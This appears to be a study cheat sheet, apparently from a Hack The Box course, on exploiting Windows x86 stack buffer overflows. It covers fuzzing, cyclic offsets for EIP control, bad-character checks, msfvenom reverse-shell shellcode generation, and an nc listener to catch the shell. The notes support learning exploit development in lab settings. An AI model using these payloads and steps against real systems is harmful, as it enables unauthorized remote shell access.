

#reversing #bof #exploit-dev #windows

# Stack-Based Buffer Overflows (Windows x86)

Steps: fuzz → control EIP → find bad chars → find JMP → jump to shellcode. Related: [windbg](windbg.md) · [assembly](assembly.md) · [shells-payloads](../Tools/shells-payloads.md)

## Contents
- [Methodology](#methodology)
- [Fuzzing](#fuzzing)
- [Offsets (control EIP)](#offsets-control-eip)
- [Shellcode (exclude bad chars with -b)](#shellcode-exclude-bad-chars-with--b)
- [x32dbg](#x32dbg)
- [ERC (exploit dev plugin)](#erc-exploit-dev-plugin)
- [Catch the Shell](#catch-the-shell)

## Methodology


## Fuzzing
```bash
python -c "print('A'*10000)"
```
Print a fuzzing payload (`file=open('fuzz.wav','w')` to write to file).

## Offsets (control EIP)
```bash
/usr/bin/msf-pattern_create -l 5000
```
Create a cyclic pattern.

```bash
/usr/bin/msf-pattern_offset -q 31684630
```
Find the offset of the value found in EIP.

## Shellcode (exclude bad chars with -b)
```bash
msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\x0a'
```
Generate reverse-shell shellcode avoiding bad bytes.

```bash
msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'
```
Generate local command-exec shellcode.

## x32dbg
```text
F3=open  alt+A=attach  ctrl+f=find instruction  ctrl+b=find pattern
```
Key shortcuts (Search For > All Modules > Instruction/Pattern to scan modules).

## ERC (exploit dev plugin)
```text
ERC --pattern c 5000
```
Create a pattern (`ERC --pattern o 1hF0` to find the offset).

```text
ERC --bytearray -bytes 0x00
```
Generate a bad-char byte array excluding known bad bytes.

```text
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```
Compare memory to the byte array to spot corrupted bytes.

```text
ERC --ModuleInfo
```
List modules and their memory protections (find a JMP ESP in an unprotected module).

## Catch the Shell
```bash
nc -lvnp 1234
```
Listener for the reverse shell. See [shells-payloads](../Tools/shells-payloads.md).
